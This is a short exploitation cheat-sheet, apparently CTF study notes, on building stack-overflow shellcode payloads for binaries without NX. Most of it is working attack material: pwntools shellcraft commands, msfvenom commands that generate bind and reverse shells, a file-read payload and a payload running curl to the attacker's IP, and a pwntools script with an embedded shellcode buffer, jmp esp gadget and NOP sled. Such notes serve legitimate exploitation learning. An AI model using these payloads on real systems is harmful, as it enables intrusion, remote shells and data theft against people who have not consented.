 Prerequisite : use checksec and ensure NX is disabled

> source https://www.youtube.com/watch?v=4zut2Mjgh5M&list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94&index=6

```
payload = padding + <the shellcode address 4bytes for x86, 8byte for x64>  + <shellcode>
```

> Pay attention to endianess !

### Generate a shellcode:

```
pwn shellcraft
# or
shellcraft

# get a list of shellcodes:
shellcraft -l 

# retrieve an existing shellcode in hex:
shellcraft i386.linux.sh

# retrieve an existing shellcode in asm:
shellcraft i386.linux.sh -f a
```

#### Using msvenom instead

```bash
msfvenom -l payloads # you can generate a bunch of payload like simple revshell, meterpreter, vnc, etc ...
msfvenom -p linux/x86/exec CMD="curl http://<my ip>" -b '\x00' -f python # execute a command, -b to specify badchars, python format is good to use with pwntool*
msfvenom -p linux/x86/shell_bind_tcp PORT=1337 -b '\x00' -f python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
msfvenom -p linux/x86/read_file PATH=flag.txt FD=2 -b '\x00' -f python

```

##### pwntool integration:
```python
# Exploit
buf = b""
buf += b"\xb8\xa4\xe4\x0d\x3b\xda\xd2\xd9\x74\x24\xf4\x5b\x31"
buf += b"\xc9\xb1\x12\x31\x43\x14\x83\xc3\x04\x03\x43\x10\x46"
buf += b"\x11\xe6\x0d\x3e\xdf\xf9\x71\x3e\xbb\xc8\xb8\xf3\xbb"
buf += b"\xa2\xf8\xb3\xbf\xb4\xfe\xc3\x36\x53\x77\x3a\xf2\x9c"
buf += b"\x98\xbc\x03\x50\x18\x35\xc1\xd2\x1d\x45\xc6\x22\xa5"
buf += b"\x47\xc6\x22\xd9\x8a\x46\x9a\xd8\x14\x47\xdb\x61\x14"
buf += b"\x47\xdb\x95\xd9\xc7\x33\x50\x1e\x38\x3c\x3d\x8c\xa6"
buf += b"\xa4\xec\x38\x51\x5f\xf1"
# Build payload

payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    buf
)
```


### Get more shellcode online
https://shell-storm.org/shellcode/index.html